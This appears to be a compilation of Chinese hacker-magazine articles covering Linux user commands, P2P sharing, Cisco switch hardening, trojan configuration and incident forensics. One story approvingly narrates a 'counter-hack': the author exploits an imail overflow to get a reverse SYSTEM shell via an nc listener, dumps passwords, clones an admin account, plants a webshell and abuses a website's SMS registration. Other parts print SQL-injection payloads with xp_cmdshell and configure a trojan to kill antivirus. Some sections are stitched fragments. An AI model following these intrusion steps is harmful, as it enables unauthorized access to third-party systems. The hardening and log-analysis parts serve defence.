  - `-l` 锁定密码，等于禁用账号。
  - `-u` 解除锁定。
  - `-d` 使账号密码为空。
  - `-f` 强迫用户下次登录时修改密码。
- 3. 删除用户：`userdel 选项 用户名`。  
  常用选项：
  - `-r` 把用户的主目录一起删除。
- 4. 建立新用户组：`groupadd 组名`。
- 5. 删除用户组：`groupdel 组名`。
- 6. 查看当前登录用户：`who`。
- 7. 查看某一时刻用户的行为：`w 用户名`。
- 8. 查看用户登录记录：`last 用户名`。
- 9. 改变用户身份：`su 用户名`（不输入用户名则默认 root）。

> **经验积累时段**：黑客不是生来就如此神奇的，而是一步一步走来，有时甚至还要埋头于枯燥的文档中。学习了基础知识是必备的，对于养成好的学习习惯也是非常重要的。建议记住老师和我说的话，“记”和“背”是不同的，要动脑子哦。

# 御用 P2P 软件共享文件

相信大家对 P2P（Peer To Peer，点对点）技术已经非常熟悉了。如今 P2P 的应用随处可见，从最初的 Napster，到最流行的 BT，以及后起之秀 Kugoo、eMule 等等，P2P 已经渗透到我们网络生活中各个方面。本文将介绍如何利用两种常用的 BT 软件——BT 和电驴来共享你的文件。

## 一、P2P 原理

P2P 下载首先在第一个共享端（种子、源）把一个文件分成 N 个部分，A 用户可以从种子上随机下载第 M 个部分，B 用户可以在种子服务器随机下载第 K 个部分。而 A 用户的 P2P 客户端下载程序会根据情况从 B 用户下载第 K 个部分；同样地，B 用户也可以从 A 用户下载第 M 个部分。通过这种方式减轻服务器端负荷，加快用户的下载速度。

例如，C 用户直接从服务器下载，速度可能只有几十 Kbps；而从 A、B 用户处下载，速度将快很多。用户在下载的同时，也在上传文件，也即在享受别人提供下载服务的同时，也在“义务”贡献自己的一份带宽，所以造成使用 P2P 下载服务的人越多，大家的速度就越快，P2P 下载的优越性就体现在这里了（如图1）。

## 二、利用 BT 共享文件

### （1）BT“种子”文件

BT“种子”文件是一个名为 `.torrent` 的文件，它是由第一个发布共享文件者根据源文件制作出来的源文件指纹信息。“种子”文件很小，一般在几十 KB 到几百 KB 之间，其中包含文件所在的 BT 站点地址信息及目标文件的校验码。当 BT 用户获得“种子”后，直接在 BT 客户端软件中运行“种子”文件，BT 软件将根据“种子”文件包含的信息，自动查找到该文件所有可用的下载源，并进行下载。

### （2）Tracker

使用 BT 服务不需要指定服务器，虽然在 BT 服务里面仍然有服务器的概念，但使用 BT 服务的人并不需要关心服务器在哪里。BT 服务器称为 Tracker，准确地说，Tracker 是指运行于服务器上的一个程序，这个程序能够追踪到底有多少人同时在下载同一个文件。BT 客户端连接上 Tracker 服务器，就会获得一个下载人的名单，根据这个名单，BT 客户端会自动连接网络中其他节点进行下载。

### （3）种子

BT 服务把提供完整文件的用户节点称为“种子”（Seed），正在下载的用户称为客户（Client），某一个文件现在有多少“种子”、多少“客户”是可以看到的。只要有一个“种子”就可以放心地下载。当然，种子越多、客户端越多的文件下载速度会越快。

### 2.3 搭建 BT 服务器

- 1. 下载 BitTorrent 源码
- 2. 安装 BitTorrent
- 3. 启动 Tracker

```bash
# rpm -q python
python-2.4-5mdk
```

```bash
# python setup.py install
```

```bash
# ./bttrack.py --port 6969 --dfile dstate > /home/og/bttrack.log &
```

### （4）制作 torrent 文件

这里我们假设对 `/home/latteye/001.jpg` 文件制作 torrent。

```bash
# btmaketorrent.py /home/latteye/001.jpg http://ip:6969/announce
```

其中 ip 为服务器 IP 或者是域名。用同样的方法可以对目录制作 torrent 文件。新版本的 BitTorrent 提供了 GUI（图形界面）制作 torrent 的工具，非常方便（如图3）。

修改 Announce URL。点击添加（如图4）。选择到对应的文件，点击确定（如图5）。最后点击 Make，出现如图5所示的提示，制作便完成了。之后在同一目录下便会出现 `001.jpg.torrent` 文件。

### （5）制作种子

最后一步，启动一个最原始的共享源，使以后的用户可以获得最初的拷贝，也就是你要分发的文件。

```bash
# ./btdownloadheadless.py --max_allow_in 20 --max_upload_rate 500 --minport 6888 --maxport 6888 /home/latteye/001.jpg.torrent --save_as /home/latteye/001.jpg
```

运行后在 shell 中能看到如下信息（如图6）。重新在浏览器中查看服务状态（如图7）。将 torrent 文件分发出去，就可以让别人下载你的文件了！

## 三、利用 eMule（电驴）共享你的文件

比较而言用 eMule 共享文件简单了不少，因为 eMule 没有类似制作 torrent 文件的过程。

### 1. 基础知识

#### （1）高 ID、低 ID

其实任何一个 P2P 软件都有这个概念，只是电驴首先向用户提出而已。

高 ID：一个高的 ID 表示在“选项→连接”所选的端口（默认值 4662）是开放的且能直接连接的。

低 ID：一个低的 ID 表示端口是阻塞的或不能抵达的，这可能由防火墙、路由器或代理服务器等引起。

获得低 ID 的用户只可以和高 ID 用户连接，获得高 ID 的用户可以和任何用户连接。比较而言高 ID 获得下载的机会会大些。

#### （2）QR 值

在搜索来源时 eMule 客户端会显示一个 QR:[x]。QR 表示等候顺序，它指出你在远端来源的排队顺序，显然一个低的值是最好的。而 QR 值是通过你的累计上传、下载比例并结合源的比例计算出来的。

### 2. aMule

电驴在 Linux 下的版本为 aMule，在 Windows 下的版本为 eMule。可以在 http://www.amule.org 上下载到最新的 aMule。

需要安装的软件包：aMule、wxGTK、wxBase。解压后编译源码安装即可（如图8）。

```bash
./configure
make
make install
```

### 3. 共享文件

- 1. 打开“选项→目录”，修改存放文件目录和临时文件目录。
- 2. 单击“共享文件”，这里可以看到所有你共享的文件。
- 3. 在文件名上点右键，弹出菜单中选择“拷贝 ED2K 连接到剪贴板”（如图9）。
- 4. 将连接复制给你的朋友们，简单吧。

【文中所涉及的软件光盘中有所提供。软件如下：aMule-2.0.3.tar.gz，wxBase-2.4.2.tar.gz，wxGTK-2.4.2.tar.gz，BitTorrent-4.1.6.tar.gz】

作者在论坛上看到月之恨读者的需要，便萌发了写此文的念头。本文从原理出发，用尽量简单的步骤让大家能够快速地共享自己的文件，非常实用。其实多学习如何搭建服务器，会让我们对很多原理性的知识掌握得更牢固些。欢迎各位读者积极点播文章，我们会努力挑选优秀的文章奉献给大家。

这期“Office 38线”给大家带来两篇文章，一篇是教大家安全配置交换机，有志当网管的“青年志士”可不要错过哦；另外一篇是向大家报道一下从善后的“禽兽”如何“捍卫安全”，希望老喜欢用木马入侵的朋友们也不妨来试试木马的“安全防御”功能哦！

# 网络设备打造安全网络环境

EvilAngel

## ——交换机篇

在网络猎手横行的今天，安全已是各大公司首要探讨的问题。通常企业的内部网络大多都有这么一个基本的假设：外部所有人都是不可信任的，而在内部的所有人都是可以信任的。而大多的网络设计者也应用了这个设计理念。而在实际的网络环境中，有超过80%的破坏行为都是来自内部。现在的防火墙在对付外来数据包的同时，却放过了来自内部网络的主要威胁。今天我就针对内网一些普遍存在的安全隐患来说说交换机配置须注意的几点，本文只涉及到交换机的设置，想了解其它设备请参照相关文章。

总的来说交换机安全分为两个部分，一是控制层面的安全，建立健全的管理制度，保证设备的物理安全，如果设备被人偷走了，也就提不到以下涉及的安全配置；二是数据层面的安全，使用ACL等技术手段、VLAN技术等辅助应用系统增强网络安全。

以下主要以Cisco二、三层交换机为例，涉及到中小型网络的核心层交换机及工作组交换机的安全配置，配置命令和你的交换机所运行的系统版本有一定的差别，请参见随机手册。

首先，保证交换机的物理安全。这也是控制层面的安全。对于工作组交换机，由于网络拓扑结构的限制，工作组交换机会出现在一些公共场所，建议配置console密码后断掉数据线，配置console密码：

```bash
#configure terminal
Enter configuration commands, one per line. End with CNTL/Z
(config)#line console 0
(config-line)#password EvilAngel
(config-line)#login
```

防止未授权用户远程登录。交换机同我们的服务器系统一样，需要进行维护及升级、打补丁。虽然远程终端给网管带来了极大方便的同时也存在潜在的威胁，建议交换机只允许网管登录，我们用标准访问控制列表来实现：

```bash
(config)#access-list 88 permit 172.16.1.254 0.0.0.0
(config)#line vty 0 4
(config-line)#ip access-group 88 in
```

假设本子网管理员地址为（静态）172.16.1.254，建立标准访问列表88禁止其它不合法登录设备，只允许172.16.1.254这个IP登录vty接口。

当然我们需要给它一个强壮的密码（为了本文可读性密码被简化了），配置特权密码为NoHack，远程登录密码为cisco：

```bash
(config)#enable secret NoHack
(config)#enable password hack
(config)#line vty 0 4
(config-line)#password cisco
(config-line)#login
```

为密码加密在特权模式运行：“service password-encryption”（去除引号），否则除secret密码外其它显示为明文（如图1），如果有不怀好意的人得到设备配置文件（一般配置文件会保存在TFTP服务器上），后果不堪设想。

有人说了，你以为只用个访问列表过滤登录的IP、加密密码就可以阻止别人的登录吗？当然不是，为了避免非管理员拿设备（比如笔记本电脑）连接到网管所在接口上改变自己的IP地址而登录设备，交换机也可以在接入交换机接口上设置一个接口对应一个MAC地址，违反规则关闭此接口（这是一个19系列的工作组交换机）：

```bash
ip name-server 0.0.0.0
enable secret 5 $sd$6c9789vhg$jnb7654
enable password cisco
line con 0
 login
 transport input none
 password EvilAngel
line aux 0
line vty 0 4
 login
 password cisco
```

图1 明文显示的密码

```bash
(config-if)#port security max-mac-count 1
(config-if)#port security action shutdown
```

以上的命令是，在此接口上交换机只可以学到一个MAC地址，如果有其它MAC数据到达此接口时，它的动作是关闭这个接口，直到管理员在此接口上运行no shutdown命令；还可以让一个IP地址对应一个MAC地址。当然，也可以在每个接口上静态配置每个接口绑定一个MAC地址，使用户不能改变IP地址，我们将在后面介绍。

记得学习安全的朋友常说一句话是，“最少的服务 + 最小的权限 = 最大的安全”。我们的交换机也是一样，也应该相应停掉不必要的服务，在这我们只介绍几个，详情参照随机手册：

```bash
(config)#no service finger
(config)#no service tcp-small-servers
(config)#no ip http server
(config)#no ip domain-lookup
(config)#
```

建议在不必要的端口上关闭CDP信息，如果它存在的话，未授权用户入侵网络登录设备可以用类似“show cdp neighbors”等命令来查看相邻设备信息（如图2）。

图2 show cdp neighbors 查看相邻设备信息

看上图可以清楚地看见Fas0/1接口连接着一台1003的路由器，名字是RC1000-02，而在Fas0/2接口上连接着一个Cisco2505的路由器，名字为RH32-01。

配置过Cisco网络设备的朋友一定知道，无论是交换机还是路由器、防火墙虽然也有telnet密码验证，但由于网络拓扑结构原因，它是很容易被监听的。当得到登录设备的权限，就算不知道“enable”密码，也可以运行具有“破坏性”的命令，如show version查看设备版本信息、show ip route显示当前设备路由表、show vlan等命令，如图3、图4所示。

一个有经验的黑客只需要简单的信息就可以构造一个拓扑图，从而制定下一步渗透。因此我们为了保护登录账号及密码，建议使用SSH（secure shell）来登录设备。我们知道系统自带的telnet是用明文传输数据的，如果黑客利用网络其它主机来嗅探网络，那么带来的后果可想而知；如果用SSH登录，信息被嗅探也要用大量的时间来破解。

为了保护我们的账号，可以在交换机上启用AAA认证来保证设备安全。AAA认证分为authentication、authorization、accounting，这里只简单介绍一下authentication认证的配置：

```bash
aaa new-model        // 启动AAA认证机制
aaa authentication login name tacacs+ radius
// 此认证的名字是name，认证方法是tacacs+、radius
line vty 0 4
 login authentication name   // 在vty接口应用AAA认证
```

大体的意思是，交换机启用了一个名字为name的认证。而name定义了两个认证方法tacacs+、radius，当交换机收到客户用户名和密码时，将此信息发到tacacs+服务器上认证。而当tacacs+失效时启用radius，radius也是一种认证服务器。然后在vty也就是telnet端口上应用这个认证。

```bash
aaa new-model
aaa authentication dot1x default group radius   // 定义一个dot1x认证
```

```bash
dot1x system-auth-control           // 全局启用这个认证
interface fastethernet 2/1
 dot1x port-control auto
```

将interface fastethernet 2/1这个端口保护起来，当有数据经过交换机时，认证服务器会进行检验。这很适合公共场所，任何人都有可能把PC连接到交换机上，就算没有授权用户连接到交换机中的某个接口，他的数据包也不能通过设备。当然，AAA认证不只是简单这些，它是一个很复杂的技术，有兴趣的朋友可以找资料研究一下。

不知道大家是否有过这样的经历，在一个小区网络或旅店网络里，你可以看到邻居家电脑的同时他也可以看到你的电脑。常常看到一些渗透内网的文章，入侵网络中一台电脑，然后进行嗅探得到另一台电脑的管理员密码，IPC$就可以提升权限成功。这种网络是很多的，而且一般解决方案就是为网络划分VLAN。如果每台电脑都需要隔离的话，那就要为每台电脑分配一个VLAN号码（注：不同VLAN在没有三层设备支持下是无法通信的）。但是如果这个网络里有几千台电脑，这个方案好像不太现实。在这种情况中就要用到私有VLAN技术来保证每台电脑细化到隔离。这样的网络里，即使相同的私有VLAN也是不可以相互通信的，这又为网管商业敏感网络提高一层安全系数，而且又节约了VLAN、IP网段的数量。我们简单介绍一下私有VLAN的配置，进入VLAN配置模式：

```bash
vtp mode transparent
vlan 201
 private-vlan isolated
vlan 200
 private-vlan promiscuous
 private-vlan association 201
interface fastethernet 2/1
 switchport mode private-vlan promiscuous
 switchport private-vlan mapping 200 201
interface fastethernet 3/1
 switchport mode private-vlan host
 switchport private-vlan host-association 200 201
```

要注意的一点是，配置私有VLAN必须把VTP模式改成透明模式，由于篇幅有限我就不作过多解释了，如果有什么问题可以来论坛直接联系我。虽然本文这样配置不一定能保证网络一定安全，只是可以提高一些安全系数，而本人技术还很浅薄，有不正确之处，还请各位前辈不吝指教。此文只作一个抛砖引玉的作用，希望更多高手写出更好的文章。

# “禽兽”从善，捍卫安全——木马在反黑中的应用

yacou【S.C.T】，杀毒鸟研究组

木马已经无人不晓了，大家都知道其原本应该属于远程控制软件的行列，而由于黑客对远程控制的改造，把原本善良的“马”变成了可怕的“马”。木马和远程控制软件的最大区别就在于，前者不易被发现、隐藏性高，而且经常被用作一些违法的勾当，而后者是光明正大的，所以不用去隐藏自身，主要用于远程服务。而今天要讲的木马就是大名鼎鼎的BEAST（中文名字叫禽兽），通过我对它的驯服让它弃恶从善来保护系统的安全。

现在黑客攻击事件实在太多了，特别在网吧里更为严重。由于网吧里的管理员大多都不太懂相关知识而且安全意识也很差，常常导致整个网吧被盗号、中木马，搞不好连主机也会被黑掉。

- 网吧管理员安全意识和安全技术几乎为零；
- 网吧内没有安装杀毒软件和防火墙；
- 共享没有关闭，IPC$通道泛滥；
- 系统没有打相应的补丁；
- 开放135、139、445端口，系统管理员密码为空（有密码的也是弱口令）。

看看这些弱智问题，只要是个Tool Kids这样的攻击者，一下就能把网吧搞得天昏地暗。

在许多网吧，业主都不重视消费者的信息安全，败兴无奈啊！当然，也曾经有个网吧老板问我如何提高网吧的安全性能，直到我碰到强大的BEAST后也才有了好的方法。

### 为什么选择BEAST？

答：因为它小巧、占用资源较少、稳定性很高，功能却够强大，适合网吧老板的要求。

## 防范思路

先把恶意程序加入到BEAST的KILL列表中，并且配置好相应的参数后在每个终端上执行；再用硬盘还原卡或系统还原精灵等工具来保护它，只要终端上有人运行恶意程序，BEAST会自动终止这个恶意程序。

## 实施步骤

打开BEAST的操作窗口依次选择“Build Server”→“AV-PW Kill”，选中“Kill AV-FW on Start”和“Kill AV-FW on every”两个选项。再点击“Configure”按钮，先点“Clear List”清除原有项目，然后逐个添加要终止的恶意进程名。

注意：BEAST列表中的程序名字，必须是需要终止程序在进程中的名字。

在Server Settings中选择“Basic”设置端口与密码；可调整Listen Port、SIN Port、Password以及Server Name等参数。

例如service.exe这类迷惑性名字，“Reside in <Windows>”与“Reside in <System>”是服务端潜伏位置；注入项建议不要注入浏览器进程，可选No Injection。

其他选项就不用了，点击“Save Server”按钮生成服务端。优点是可即时终止恶意程序运行；缺点是程序名被修改后规则会失效。

### 3 攻击者职业猜定

由于一般中午12点半以后才实施攻击，推测攻击者可能是上班一族，或高校学生等。

## 四、防护措施

SQL注入攻击常见于存在安全漏洞的数据库访问代码。对请求页面进行代码修改可防止注入复发。

```text
net user
xp_cmdshell /add
exec master.dbo.xp_cmdshell
char
select count(*)
net localgroup administrators
mid
insert
%
drop table
truncate
delete from
update
```

编辑点评：通过日志入侵者踪迹清晰可查，未必无迹可寻。

# 11月 反黑现场重案勘破

GPRS、CDMA的发展和推广，使得通过手机进军“空军”的人越来越多，与此同时手机“黑客”也随之浮出水面了。呵呵，别误会，本次“反黑现场”不是教大家如何反击手机黑客，而是给大家展示一下“手机在反追踪中的妙用”，这回你就不用在电脑前两眼直瞪等待“黑客”上线了，让我们来看看“黑客”是如何自投罗网的：通过日志来追踪黑客的蛛丝马迹，在“充分利用web日志分析SQL脚本注入漏洞攻击”一文中将会有详细描述。

# 月夜反黑行

## 手机在反追踪中的妙用

AK-47（舒平）

“月到中秋分外明，清辉悄洒何悠悠。”早在半个月前就计划着要在中秋之夜好好地休息休息，缓解下最近高压的生活。当天下午正当我和死党策划着晚上怎么过时，手机响了，开始还想着谁打电话祝我节日快乐呢，可一接电话，心马上凉了半截……晚上的计划要泡汤了……

电话是我一网管朋友打来的，说他们公司的服务器被人入侵了，而且后果很严重，上面一个站web目录中的几乎所有文件都被恶意删除了，数据库也被删得乱七八糟。虽然网站留有备份，但最近一个星期的数据已经是无法挽回了。

两个月前，我曾帮这位朋友给服务器做了一次比较彻底的安全配置，设置了基本的系统环境，独立的web用户，严格的目录访问权限，以及删除了一切不必要而又危险的组件。由于他们公司提供类似虚拟主机的业务，服务器上有9个站，web方面很难做到滴水不漏，所以当时做安全配置的目的主要是针对服务器安全，也就是说，即使入侵者拿到了webshell，也不能对服务器安全构成威胁。本来以为这么设置就可以高枕无忧了，却没想到还会被入侵。拿了朋友给的PCAnywhere密码登录上去，检查了一下，确定系统并没有受到威胁，只是web方面的问题，9个站中的其中一个差不多已经空了。估计是这个配置惹恼了入侵者，在他提升权限失败后一怒之下删除了web中的文件以及数据库中的表。像这种连最基本规则都不遵守的所谓“黑客”，是必须要受到惩罚的！带着秋夜赏月计划落空的郁闷心情，我开始了下面的反击……

他是从web入手的，所以很有可能是SQL injection漏洞或者上传漏洞让他拿到了webshell。既然没有拿到系统权限，那么IIS日志一定是完整的，也一定留有他入侵记录。于是，我打开了当天的IIS日志，由于日志太大，我直接搜索“and”“select”等关键字，马上，他完整的入侵过程就清晰地显现出来了，我们从中挑选几条作为分析。

```text
2005-09-18 10:32:25 ... GET /house/loupan/lp.asp_id=100%20and%20(Select%20count(1)%20from%20(sysobjects))>=0 ... 200 0 0
```

相信分析过NBSI2的朋友对这个不会陌生，这是NBSI2留下的记录。这条是NBSI判断数据库是否为mssql的语句，从上面可以看到，返回200，成功。

```text
2005-09-18 10:32:36 ... GET /house/loupan/lp.asp_id=100%20And%20(Select%20Top%201%20cast(name%20as%20varchar(8000))...from%20(sysobjects)%20Where%20xtype=char(85)...
```

```text
2005-09-18 10:33:45 ... GET /house/loupan/lp.asp_id=100%20And%20(Select%20Top%201%20isNull(cast([id]...,[pwd],[uname]...from%20[071fc]) ...
```

```text
[manage]%20where%201=1%20order%20by%20[id],[pwd],[uname] ... 将 varchar 值 'goadmin3948xcojdqadminvl' 转换为数据类型 int 时发生语法错误。
```

上面两条是他爆出了manage表以及manage中的管理员账号、密码。爆出了密码，就要找后台登录了，看下一条。

```text
2005-09-18 10:35:51 ... GET /house/manage/index.asp ... 200 0 0
```

从后面的日志可知道他登录了后台，然后通过上传文件上传了asp木马。在这里，入侵过程已经不是重点了，最重要的是，我知道了他的IP：211.xxx.xxx.135。希望有好运气，能从这个IP发现些什么。

对IP扫描了一下端口，咦，竟然开了80和3389，登上去一看，还是个挺大的站啊。看到这里就知道这可有戏了。这很有可能是那家伙的肉鸡，只要拿下了它，就可能在上面发现些蛛丝马迹。因为现在系统普遍比较安全，所以我的习惯一般都是先从web入手，于是开始检测它web的安全性。发现是IIS的server，但却是php的页面。由于我对php不熟悉，随便看了看也没发现有什么可以利用的地方，之后试遍了旁注和其它方法，都没发现什么有用的东西。正一筹莫展之际，突然想到刚才的端口扫描结果。当时发现了80和3389，光顾着兴奋了，却忽略了一个很重要的线索：端口还开了25、110和8383。啊，8383不是imail的web登录口吗。记得imail好几个溢出补丁都没打，这下可就让我窃喜了。马上在IE里面输入211.xxx.xxx.135:8383，出来了imail版本，7.11。如图1所示。

imail 7.11该是一个很老的版本了，不知道有没有溢出，马上到安全焦点搜了一下，还真是人品不错，7.11就是存在溢出漏洞的imail版本之一，而且这个溢出可以拿到system权限。在网上找到了这个漏洞的详细资料以及利用的exploit，这是02年8月的一个老洞了，漏洞没有补丁，唯一的办法就是升级imail版本。既然这台服务器用的是imail 7.11，那么，嘿嘿……看来那个放着好好的中秋不过却拿个扫描器到处乱黑的家伙注定要被我修理了。

用cygwin编译了一下那个exploit，可以正常使用，还是个带反弹端口的exploit。先打开一个CMD窗口本地监听 nc -v -l -p 9999，然后在另一个CMD窗口中按照说明进行溢出，成功！监听的CMD马上获得了一个system权限的shell，如图2、图3所示。

# 反黑现场黑客手册

一切比想象中的要顺利，这么轻易就拿下了那位“黑客”的这台肉鸡。加个账号登录了3389，传了个CA和findpass上去，拿了管理员密码，把guest账号克隆成了管理员，然后删除了刚才新加的账号，毕竟这个账号太显眼了。接下来，我在它的硬盘上搜索“nbsi2.exe”，很快，发现了nbsi2在system32目录下一个叫sys32的文件夹中。啊，不但有NBSI，还有一大堆僵尸的各种工具，包括findpass和CA，早知道我就不用传了。看来，这台肉鸡是他的根据地了，他必定还会回来的。而他是通过3389登录的，我马上就想到了那个网上流传很广的bat文件，可以监视3389的登录并把登录的IP记录到一个日志中。

本来，我想就这么运行那个bat文件，过一段时间之后再上去查看记录的日志，从而找出他的IP。但后来转念一想，如果他用的是ADSL上网（ADSL上网每次IP都是不一样的），或者他在网吧上网，就算弄到了IP，又有什么用呢，我一样抓不着他。最好的办法是和他在登录肉鸡的时候遇上，这样，就可以和他对上话。但我又不可能一直在肉鸡上面守着呀，有没有什么办法，可以在不耽误我干活的情况下通知我呢？

很快，我想到了利用手机。让他一登录我的手机就收到响应，从而知道他已经登录了肉鸡。听起来像天方夜谭，但仔细想想，这却是可以实现的！那个监视登录的脚本，在发现3389有连接后就把连接记录到日志文件中，而我当然也可以修改一下那个bat，让它发现有连接就运行一个程序，而那个程序，就是用来给我手机发送短信通知的。那么，怎么实现这个程序呢？很简单！我们并不需要收到的手机短信是自定义的内容，如“有人入侵啦！”之类，虽然这样也是可以实现的（具体可参考我以前发在nohack的一篇文章《从免费短信到手机攻击》），但实现起来过于复杂，而且，也没有这个必要。

我们只要保证他在登录的时候自己的手机会响，会收到一条和普通短信不同的信息，就可以了。说到这里，相信不少朋友已经知道用什么方法了，没错！有的网站可以手机注册，注册的时候用户填上自己的手机号，网站就会发一个注册码短信到用户手机，而我们恰恰可以利用这一点，找一个可以手机注册的网站，在注册的时候填手机，然后写个程序发送这个数据包，当运行这个程序，手机就会收到短信了。

唯一的要求就是那个网站在注册的时候不需要填验证码，而这样的网站现在是大量存在的。

理论成熟了，下面应该实践了。利用Google或者Baidu，很快可以搜到一堆符合条件的网站，我找了一个邮箱注册的，http://202.99.23.243/extend/gb/std/NULL/NULL/registration.gcn，这个网站注册的时候不用填验证码，但是24小时之内同一个手机号只能发送三次，但这对我们没有影响，三次已经够了。打开这个页面，填入手机号，如图4所示。

然后打开Winsock Expert，选择监听这个IE，如图5所示。之后点提交，Winsock Expert就抓到IE发送的数据包了，如图6所示。

```http
POST /extend/gb/std/NULL/AA0000aimc/registration/registration.gcn HTTP/1.1
Accept: image/gif,image/x-xbitmap,image/jpeg,image/pjpeg,application/x-shockwave-flash,*/*
Referer: http://202.99.23.243/extend/gb/std/NULL/NULL/registration.gcn
Accept-Language: zh-cn
Content-Type: application/x-www-form-urlencoded
Accept-Encoding: gzip, deflate
User-Agent: Mozilla/4.0 (compatible; MSIE 6.0; Windows NT 5.1; SV1)
Host: 202.99.23.243
Content-Length: 67
Connection: Keep-Alive
Cache-Control: no-cache

request=MobileCertify&numberGsm=13838385438&submit.x=56&submit.y=13
```

只要提交这个数据包，就会收到网站发来的短信（“您的注册密码是……”），如果设置好之后，只要看到这样的短信，就知道“黑客”已经登录肉鸡了……

选择 Microsoft Winsock Control 6.0，点击确定，在工具栏就会出现一个winsock图标，把这个图标添加到Form中，然后在Form_Load()事件中添加如下代码：

```vb
Form1.Visible = False
Winsock1.RemoteHost = "202.99.23.243"
Winsock1.RemotePort = 80
Winsock1.Close
Winsock1.Connect
```

在 Winsock1_Connect() 中添加如下代码：

```vb
Dim Senddates
Senddates = "POST /extend/gb/std/NULL/... HTTP/1.1" & vbCrLf & ...
Winsock1.SendData Senddates + vbCrLf
End
```

代码写完了之后生成exe文件，这里我们命名为notice.exe……改成下面这个样子：

```bat
@echo off
:start
@netstat -an -p tcp|find ":3389"|find "ESTABLISHED" && goto 3389
@goto start
:3389
@notice.exe
```

意思就是运行netstat命令并查找3389和ESTABLISHED……

如果我还在这废话的话……放一个webshell，然后注销3389，再通过webshell来执行这个bat（如图8所示）。

现在可以开着手机守株待兔了。过了几天，凌晨1点40分……msg发送消息的格式为 msg ID message（图9）。

这回不但要了他的QQ，还骗取了他的信任……

正如有句话所说，攻与防本是密不可分的……

> 【本文所涉及的mailover.exe、Winsock_Expert、notice.bat、notice.exe在光盘中均有收录】

## 编辑点评

编辑这篇文章的时候想起了以前我的一个想法……

# 充分利用 Web 日志

heata

## 分析 SQL 脚本注入漏洞攻击

笔者10月的一天接到朋友电话，说发现他们公司一台对外服务器受到病毒攻击。本人就是心软，并且爱人之托没有办法，朋友有难只有挺身而出了。虽然自己不太懂，也算个超级菜鸟，也只有试试啦。

### 一、初步勘查

一个小时内我放下自己的工作来到现场，开始检查服务器的各种设置，发现服务器中有五个页面被修改。在被修改的5个文件末尾添加了`<iframe>`项，这样所有点击这五个页面的客户计算机，如果没有安装最新的杀毒软件，就会弹出一个小窗，访问嵌入隐藏的“xxx”网站。该网站是一个暗藏灰鸽子木马的站点，一旦用户点击就会在用户电脑上运行灰鸽子木马，成为一台肉鸡。

```text
2005-10-9 04:58:39 GET /new.asp Action=ShowFile ...
2005-10-9 04:58:41 POST /new.asp ...
2005-10-9 04:58:41 GET /new.asp Action=MainMenu ...
2005-10-9 04:58:41 GET /new.asp Action=ShowFile ...
```

第一时间我们这些菜鸟保存了被修改的文件，同时及时地恢复了五个文件，保证了系统的正常运行，免得我朋友挨骂。通过查看五个文件的修改时间，我们发现是2005年10月9日12:27，这样我们又备份了这段时间内的Web日志。打开10月9日的系统日志，我们发现在这段时间内只有“search.aspx”程序被调用，下面是当时的日志：

```text
2005-10-9 12:27:01 GET /html/...shtml ...
2005-10-9 12:27:44 GET /pub/search.aspx Searchbox=...&SearchType=... ...
2005-10-9 12:27:59 GET /html/...shtml ...
```

所以我当时初步认为是“search.aspx”的查询不规范，导致攻击者利用长脚本输入攻击，导致修改了5个页面。因此，复制了“search.aspx”的源代码作为进一步的分析用（其实当时的日志分析不正确，我们把时间推后了8个小时。由于该Web服务器日志时间采用的是格林威治标准时间，所以有8个小时的时差，这个也是一个教训了）。

回到家，我分析了10月9日12:00~13:00的所有日志，并且将Unicode编码一一解码成中文，可是还是没有发现什么漏洞，用户访问的还是一些基本信息；同时又分析了“search.aspx”文件的源代码，发现两个文件没有什么输入检验，但是在“search.aspx”文件中第三行中有这样的语句`Codebehind="search.aspx.vb"`，因此判断这里可能有输入检验，没有证实。到此时的结论是：攻击者的水平比较高，修改了Web日志，没有攻击的痕迹留下。采用的是利用“search.aspx”中的不完整校验，成功地进行了5次攻击，修改了5个页面。

### 二、重点分析

10月10日，当我和朋友交换意见时，提到了是不是有日志时间推后的问题，才发现原来有8个小时的时差。于是赶紧分析了10月9日的所有日志，重点分析了当日4:00~6:00期间的。分析中发现有几条日志十分可疑，具体如下：

```text
2005-10-9 04:58:39 GET /new.asp Action=MainMenu ...
```

new.asp中调用Action=ShowFile的方法，这个十分可疑。我马上按照日志打开“http://bb.*.com/new.asp”，原来是个Web后门页面，中间一个输入框，旁边一个按钮。很明显这是一个严重的后门漏洞，在不明白原因的情况下，我立即通知了朋友，请求删除该页面。这样我决定追根溯源，打开10月9日的日志，发现访问该页面的只有一个用户，就是“202.99.*.*”，通过查询，确定该用户是“xx电信”下面的一台计算机，同时我们进行了连通测试，结果如下：

```text
C:\>ping 202.99.*.*
Pinging 202.99.*.* with 32 bytes of data:
Reply from 202.99.*.*: bytes=32 time=375ms TTL=52
Reply from 202.99.*.*: bytes=32 time=234ms TTL=52
Reply from 202.99.*.*: bytes=32 time=188ms TTL=52
Reply from 202.99.*.*: bytes=32 time=141ms TTL=52
Ping statistics for 202.99.*.* ...
```

好家伙，坏蛋一直在线呢（也许Ping的是这家伙的网关出口，他在内网）。我朋友将“new.asp”改名为“savenewsa1.asp”，创建时间为2005年10月9日12:53:33。我们再次分析了从当日到最近的所有日志，发现只有三天的访问记录，具体解释如下：10月9日的访问大约8分钟，时间是中午的12:52分开始，具体如下：

```text
2005-10-9 04:52:57 GET /haopengyou.asp ...
2005-10-9 04:53:33 POST /haopengyou.asp ...
2005-10-9 04:53:33 GET /new.asp ...
2005-10-9 04:59:55 POST /new.asp ...
```

10月10日的访问大约5分钟，具体如下：

```text
2005-10-10 04:41:36 GET /new.asp ...
2005-10-10 04:41:41 GET /new.asp Action=ShowFile ...
```

10月10日的访问分为三个部分，具体如下：我们的访问：

```text
2005-10-09 08:57:53 GET /new.asp ...
2005-10-09 08:58:01 POST /new.asp ...
```

我朋友的访问记录是：

```text
2005-10-09 09:01:02 GET /new.asp ...
2005-10-09 09:03:45 GET /new.asp ...
```

从以上可以看出，攻击者在10月9日和10日的访问都成功，接着就是我和我朋友的访问了。我们打开了“new.asp”源文件，发现这是一个危险的后门页面，它可以完成文件的复制、修改、数据库的查询等功能。下面细细分析：

首先进行攻击探测：

```text
2005-10-9 04:49:06 GET ...&BigClassID=2 and 1=1...
```

猜解数据库名称：

```text
2005-10-9 04:49:06 GET ... (Select count([name]) from [master]..[sysobjects]) ...
```

然后SQL类型转换，这里的“0x730079007300610064006D0069006E00”代表的是“sysadmin”。

```text
2005-10-9 04:49:06 GET ... Is_SrvRoleMember(...) ...
```

创建一个表，查看C盘下所有文件和目录，然后删除痕迹：

```text
2005-10-9 04:49:29 GET ... CREATE TABLE [X_9010] ...
varchar(1024) NULL), insert into [X_9010](ResultTxt) EXEC MASTER..XP_CMDSHELL 'Dir C:\' ...
